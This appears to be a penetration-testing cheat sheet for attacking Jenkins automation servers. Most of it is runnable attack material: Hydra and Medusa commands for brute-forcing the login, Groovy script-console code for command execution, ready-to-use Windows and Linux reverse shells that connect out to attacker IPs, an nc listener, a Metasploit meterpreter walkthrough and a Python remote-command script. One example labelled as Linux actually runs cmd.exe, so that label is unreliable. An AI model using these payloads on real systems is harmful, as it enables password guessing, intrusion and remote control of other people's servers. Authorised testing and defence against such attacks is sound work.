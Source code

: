 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Jenkins is an open-source automation server used for continuous integration and delivery (CI/CD) in software development. It automates tasks like building, testing, and deploying software, and supports a vast range of plugins to extend its capabilities.

### **Identifying Jenkins Version**

1.  Check Version on Login Page:  
    `Look at the bottom of the Jenkins login page for the version number.`
2.  Using Jenkins API:  
    `curl -s http://[JENKINS-IP]/api/json | jq .`
3.  From the System Information page:  
    After logging in, navigate to `Manage Jenkins` → `System Information`.

### **Brute Force Credentials**

1.  Brute-Forcing with Metasploit:  
    `auxiliary/scanner/http/jenkins_login`
2.  Brute-Forcing with Hydra:  
    `hydra -l admin -P /path/to/wordlist.txt [JENKINS-URL] http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&Submit=Log+in:Invalid username or password" -V`
3.  Brute-Forcing with Medusa:  
    `medusa -h [JENKINS-URL] -U /path/to/usernames.txt -P /path/to/wordlist.txt -M web-form -m DIR:/j_acegi_security_check -m FORM:'/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&Submit=Log+in:Invalid username or password'`

### **Remote Code Execution via Script Console**

1.  Access script console:  
    `http://[JENKINS-DOMAIN]:8080/script`
2.  Execute a Simple whoami:
    ```Groovy
    def cmd = 'whoami'
    def sout = new StringBuffer(), serr = new StringBuffer()
    def proc = cmd.execute()
    proc.consumeProcessOutput(sout, serr)
    proc.waitForOrKill(1000)
    println sout
    ```

3.  Run Linux Commands:
    ```Groovy
    def cmd = "cmd.exe /c dir".execute();
    println("${cmd.text}");
    ```
    
4.  Windows Reverse Shell:
    ```Groovy
    String host="10.10.14.3";
    int port=1337;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```
    
5.  Linux Reverse Shell:
    ```Groovy
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/1337;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    ```
    
6 . Run listener with rlwrap to make the shell more usable  
    `sudo rlwrap -cAr nc -lvnp 1337`

### **Automating Exploitation with Metasploit**

```bash
# 1. Launch Metasploit
msfconsole

# 2. Load the Jenkins script console exploit
use exploit/multi/http/jenkins_script_console

# 3. Set the target IP address
set RHOSTS [TARGET-IP]

# 4. Set the Jenkins port (default is 8080)
set RPORT 8080

# 5. Set the path to the script console
set TARGETURI /script

# 6. Choose your payload (reverse shell using Meterpreter)
set PAYLOAD java/meterpreter/reverse_tcp

# 7. Set your local IP address (attacker)
set LHOST [LOCAL-IP]

# 8. Set the port to receive the reverse shell
set LPORT [LOCAL-PORT]

# 9. Run the exploit
exploit
```
### **Automating Exploitation with Python Script**

```Python
#!/usr/bin/env python3
import requests
import argparse
import re
import json


import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

parser = argparse.ArgumentParser(description = 'Jenkins Admin Groovy Console exec')
parser.add_argument('url', type=str)
parser.add_argument('-u', '--user', type=str)
parser.add_argument('-p', '--password', type=str)
parser.add_argument('-c', '--command', type=str, required=True)
parser.add_argument('-C', '--cookie', type=str)
parser.add_argument('-K', '--crumb', type=str)

args = parser.parse_args()
URL = args.url
COOKIES = {}
if args.user and args.password:
    AUTH = (args.user, args.password)
else:
    AUTH = None
if args.cookie:
    COOKIES = json.loads(args.cookie)

DATA = {'script':"def proc = ['bash', '-c', '''{}'''].execute();def os = new StringBuffer();proc.waitForProcessOutput(os, os);println(os.toString());".format(args.command)}

if args.crumb:
    DATA.update(json.loads(args.crumb))

r = requests.post(URL + '/script', data=DATA, auth=AUTH, cookies=COOKIES, verify=False)
m = re.search('<h2>Result</h2><pre>(.*)</pre>', r.text, flags=re.DOTALL)
if m:
    print(m.group(1))
else:
    print('oops')
    print(r.text)
```